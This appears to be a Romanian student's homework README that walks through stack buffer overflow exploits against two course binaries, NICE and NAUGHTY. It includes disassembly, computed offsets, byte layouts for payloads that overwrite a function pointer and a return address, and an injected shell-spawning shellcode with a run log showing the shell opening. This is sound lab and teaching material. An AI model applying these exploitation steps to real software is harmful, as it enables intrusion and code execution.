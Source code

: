 ## Fisierul NICE

### Analiza binarului

Functia vulnerabila se afla la adresa 0x08049329. In aceasta functie, se aloca
spatiu pentru 0x2f9 bytes. Apoi este salvata pe stiva, mai exact la pozitia
ebp-0x1de, adresa unei functii (0x80492c8). Urmeaza apoi o citere de la tasta-
tura. Daca se citesc maxim 0x2f9-0x1de=283 bytes, nu va fi nicio problema. In
schimb daca se citesc mai multi, se va suprascrie adresa functiei salvata pe
stiva si programul va functiona diferit, intruact ulterior, functia de la acea
adresa va fi apelata. Asa cum se poate observa din codul de mai jos, se citesc
0x2f9 bytes, deci adresa acelei functii va putea fi suprascrisa.


 8049329: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 55 push   ebp\
 804932a: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 89 e5                   mov    ebp,esp\
 804932c: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 81 ec f9 02 00 00       sub    esp,0x2f9\
 8049332: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; c7 85 22 fe ff ff c8    mov    DWORD PTR [ebp-0x1de],0x80492c8\
 8049339: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 92 04 08 \
 804933c: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 89 e2                   mov    edx,esp\
 804933e: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 68 f9 02 00 00          push   0x2f9\
 8049343: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 52                      push   edx\
 8049344: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 6a 00                   push   0x0\
 8049346: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; e8 e5 fc ff ff          call   8049030 \<read@plt>\
 804934b: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 8b 85 22 fe ff ff       mov    eax,DWORD PTR \[ebp-0x1de]\
 8049351: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; ff d0                   call   eax\
 8049353: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; c9                      leave  \
 8049354: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; c3                      ret    


### Spargerea binarului

Este suficient sa suprascriu adresa acelei functii cu o alta adresa care va
genera mesajul dorit. Aceasta adresa este 0x08049291 deoarece:

- la eticheta print_flag se afla 7 functii (se observa 7 cadre de stiva);
- main-ul contine 4 functii care doar citesc un numar de bytes si inca una
vulnerabila (cea de a patra);
- a doua functie din print_flag este cea la care "se sare", daca nu este
exploatata vulnerabilitatea, programul afisand "All done...";
- ramane astfel o singura functie, avand adresa 8049291, in corpul careia se
poate observa un apel al functiei "puts", care probabil printeaza mesajul
NICE_FLAG{...}.


 8049291: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 55                      push   ebp\
 8049292: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 89 e5                   mov    ebp,esp\
 8049294: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 6a 04                   push   0x4\
 8049296: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 68 66 c0 04 08          push   0x804c066\
 804929b: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 6a 00                   push   0x0\
 804929d: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 6a 00                   push   0x0\
 804929f: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 6a 00                   push   0x0\
 80492a1: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 6a 00                   push   0x0\
 80492a3: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; e8 c8 fd ff ff          call   8049070 \<ptrace@plt>\
 80492a8: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 83 c4 10                add    esp,0x10\
 80492ab: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 83 f8 ff                cmp    eax,0xffffffff\
 80492ae: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 75 07                   jne    80492b7 <print_flag+0x26>\
 80492b0: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 6a 01                   push   0x1\
 80492b2: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; e8 99 fd ff ff          call   8049050 \<exit@plt>\
 80492b7: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; e8 99 ff ff ff          call   8049255 <\__x86.get_pc_thunk.bx+0x185>\
 80492bc: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 68 28 c0 04 08          push   0x804c028\
 80492c1: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; e8 7a fd ff ff          call   8049040 \<puts@plt>\
 80492c6: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; c9                      leave  \
 80492c7: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; c3                      ret    


Astfel, pentru a sparge binarul, am citit de la tastatura:

- 98 bytes pentru prima functie, intrucat functia executa exact aceasta
operatie;
- 297 bytes pentru a doua, din acelasi motiv;
- 229 bytes pentru a treia, din acelasi motiv;
- 283 bytes pentru a patra la care am adaugat noua adresa, 0x08049291,
scrisa in little endian.



## Fisierul NAUGHTY

### Spargerea binarului

Vulnerabilitatea in acest binar este o functie care citeste pe stiva mai mult
decat se alocase inainte, putand astfel modifica adresa de retur a functiei
apelante. Concret, a patra functie apelata din main, ce are adresa  0x08049362,
aloca 0x1f2 bytes si citeste 0x34d bytes.


 8049362: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 55                      push   ebp\
 8049363: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 89 e5                   mov    ebp,esp\
 8049365: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 81 ec f2 01 00 00       sub    esp,0x1f2\
 804936b: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 89 e2                   mov    edx,esp\
 804936d: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 68 4b 03 00 00          push   0x34b\
 8049372: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 52                      push   edx\
 8049373: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 6a 00                   push   0x0\
 8049375: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; e8 b6 fc ff ff          call   8049030 \<read@plt>\
 804937a: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 81 bd 75 ff ff ff 88    cmp    DWORD PTR \[ebp-0x8b],0xbb4488\
 8049381: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 44 bb 00 
 8049384: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 74 07                   je     804938d <print_flag+0xfc>\
 8049386: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 6a 01                   push   0x1\
 8049388: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; e8 c3 fc ff ff          call   8049050 \<exit@plt>\
 804938d: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; c9                      leave  \
 804938e: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; c3                      ret


Pentru a putea sparge binarul, trebuie ca primele 3 functii apelate din main
sa nu treaca de if-ul corespunzator verificarii unui element citit cu o valoare
data in program. Astfel, prima functie din main, cea de la adresa 0x080492de:

- aloca 0x10d bytes si citeste de la ebp-0x10d in sus, 0xcf bytes;
- compara numarul de la ebp-0xb9 cu valoarea 0x3113cc71, iar daca sunt egale se
continua executia programului.


 80492de: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 55                      push   ebp\
 80492df: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 89 e5                   mov    ebp,esp\
 80492e1: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 81 ec 0d 01 00 00       sub    esp,0x10d\
 80492e7: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 89 e2                   mov    edx,esp\
 80492e9: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 68 cf 00 00 00          push   0xcf\
 80492ee: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 52                      push   edx\
 80492ef: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 6a 00                   push   0x0\
 80492f1: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; e8 3a fd ff ff          call   8049030 \<read@plt>\
 80492f6: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 81 bd 47 ff ff ff 71    cmp    DWORD PTR \[ebp-0xb9],0x3113cc71\
 80492fd: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; cc 13 31 
 8049300: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 74 07                   je     8049309 <print_flag+0x78>\
 8049302: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 6a 01                   push   0x1\
 8049304: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; e8 47 fd ff ff          call   8049050 \<exit@plt>\
 8049309: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; c9                      leave  \
 804930a: &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; c3                      ret


Deci trebuie avut grija cand citesc de la tastatura, sa introduc 0x10d-0xb9=84
bytes random, apoi numarul 0x3113cc71, in little endian si apoi inca 0xcf-84-4=119
bytes random pentru a continua executia programului.

Pentru urmatoarele doua functii se procedeaza identic.

Pentru a patra functie, unde se citeste mai mult decat se aloca, se citeste prac-
tic intreg numarul de bytes alocat si anume 0x1f2 bytes, avand grija ca mai sus
sa pun numarul corect pe pozitia indicata, iar apoi se citesc inca 4 bytes random
pentru a suprascrie vechiul ebp salvat pe stiva. In final se citeste de la tasta-
tura noua adresa a functiei la care "va sari" executia programului. Practic se
pune adresa 0x08049291, scrisa desigur in little endian, explicatia fiind simi-
lara cu cea din binarul NICE.

In acest fel, functia la care se trece va afisa mesajul "NAUGHTY_FLAG{...}".



### Shellcode

Folosind din nou binarul NAUGHTY, exploatam vulnerabilitatea prezentata anterior
din a patra functie. Ideea este ca in loc sa citim o gramada de caractere
garbage, la un moment dat sa citim codul unei functii care deschide un shell.

Asadar, am dat ca input pentru functia respectiva:
- 100 caractere garbage;
- un string in hexa de 55 bytes care reprezinta codul unei functii ce deschide
un shell (luat de la urmatorul [link](http://shell-storm.org/shellcode/files/shellcode-811.php))
- inca 204 caractere garbage;
- numarul "\x88\x44\xbb\x00", pentru a trece de if-ul care compara valoarea de
la pozitia la care am ajuns cu acest numar;
- inca 139 de caractere garbage astfel incat sa suprasciu tot pana la vechiul
ebp salvat, urmand sa suprascriu si adresa de return;
- "\x7a\xd0\xff\xff", noua adresa de return, care reprezinta de fapt adresa la
care este stocat shellcode-ul citit anterior de la tastatura.

Aceasta noua adresa de return se gaseste cu ajutorul gdb-ului, astfel ca aflu
la ce adresa pointeaza ebp-ul si adun 100, pentru ca am, inainte de citirea
shellcode-ului, am citit 100 bytes garbage. Astfel, obtin adresa de pe stiva la
care este salvat shellcode-ul.

#### Exemplu de rulare

student@IOCLA:\~/tema4$ ./naughty < naughty_shellcode \
$ ls\
README	naughty  naughty_payload  naughty_shellcode  nice  nice_payload  tema4.zip\
$ pwd\
/home/student/tema4\
$ exit\
student@IOCLA:\~/tema4$ 


